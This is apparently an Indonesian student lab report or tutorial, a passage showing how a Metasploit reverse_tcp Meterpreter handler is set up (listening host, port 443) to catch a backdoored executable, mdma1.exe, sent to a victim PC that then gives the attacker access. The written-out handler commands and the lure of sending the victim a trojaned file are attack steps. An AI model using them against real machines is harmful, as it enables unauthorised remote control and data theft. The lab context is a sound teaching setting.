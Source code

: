 

Ketik perintah “use exploit/multi/handler” (yang digunakan untuk backdoor). Selanjutnya ketik perintah “set payload windows/meterpreter/reverse_tcp” (payload yang digunakan).

![Gambar 3.7 Menggunakan exploitmultihandler.jpeg](https://cdn.steemitimages.com/DQmQFXSsNf2h1hdgCV5i2nKvJ52F8vcGfoZbkCrLuQ7wZvS/Gambar%203.7%20Menggunakan%20exploitmultihandler.jpeg)

Gambar 3.7 Menggunakan exploit/multi/handler

![Gambar 3.8 Menggunakan windowsmeterpreterreverse_tcp.jpeg](https://cdn.steemitimages.com/DQmT6cMgKLHfBm1mBUbKaBoRbnM8UfZMjihPsFWrVajaiXZ/Gambar%203.8%20Menggunakan%20windowsmeterpreterreverse_tcp.jpeg)

Gambar 3.8 Menggunakan windows/meterpreter/reverse_tcp



Lanjutkan dengan perintah “set lhost 192.168.0.1” (listening host), lalu “set lport 443” (listening port), ketik “show options” untuk melihat pengaturan.

![Gambar 3.9 Mengatur option.jpeg](https://cdn.steemitimages.com/DQmVtJkZirgvdfLPYmDXFw8uRUC7N56ts8YApZzCYQHTzmp/Gambar%203.9%20Mengatur%20option.jpeg)

Gambar 3.9 Mengatur option



Perintah terakhir adalah “exploit”, tinggal menunggu korban menjalankan mdma1.exe.

![Gambar 3.10 Perintah exploit.jpeg](https://cdn.steemitimages.com/DQmbvh2rcY9UpkT4DEWckH586dCV5s6sqxCahsVg6oJSJeZ/Gambar%203.10%20Perintah%20exploit.jpeg)

Gambar 3.10 Perintah exploit



## BAB 4 Pembahasan

### 4.1 Memasuki PC korban dengan backdoor yang telah dibuat

Asumsi bahwa PC korban tidak menggunakan antivirus dan korban dikirimkan file mdma1.exe dan menjalankannya. Terlihat bahwa program berjalan seperti biasa namun dibuka akses dari PC penyerang. Berikut merupakan konfigurasi IP dari PC korban:

![Gambar 4.1 File mdma1.exe akan dikirim ke PC korban.jpeg](https://cdn.steemitimages.com/DQmd1fu6uaYK8cUk9V9hrjode6TJxndnYznRtFBzz5HyLv3/Gambar%204.1%20File%20mdma1.exe%20akan%20dikirim%20ke%20PC%20korban.jpeg)

Gambar 4.1 File mdma1.exe akan dikirim ke PC korban

![Gambar 4.2 IP Address PC korban.jpg](https://cdn.steemitimages.com/DQmWz3DBRLJN6KhVmyjQBREPUNRrDky5P5CFnJrR4b9pfSZ/Gambar%204.2%20IP%20Address%20PC%20korban.jpg)

Gambar 4.2 IP Address PC korban

![Gambar 4.3 Korban membuka file mdma1.exe .jpg](https://cdn.steemitimages.com/DQmRMA7HvzZuhSQnP9F91v1CsXhnjjf2x42CGmP8C1ZRrgj/Gambar%204.3%20Korban%20membuka%20file%20mdma1.exe%20.jpg)

Gambar 4.3 Gambar 4.3 Korban membuka file mdma1.exe

![Gambar 4.4 PC penyerang mendapat akses.jpeg](https://cdn.steemitimages.com/DQmToKMzgZebn3WgkwP9JtSFqLXJbb4eDrdbPHcnsMPQyYY/Gambar%204.4%20PC%20penyerang%20mendapat%20akses.jpeg)

Gambar 4.4 PC penyerang mendapat akses

![Gambar 4.5 Tampak isi partisi D pada PC korban.jpg](https://cdn.steemitimages.com/DQmQsDRfU3vMK65kn5NVSzSxfoWtUAXnro29x5wBgbnmwLb/Gambar%204.5%20Tampak%20isi%20partisi%20D%20pada%20PC%20korban.jpg)
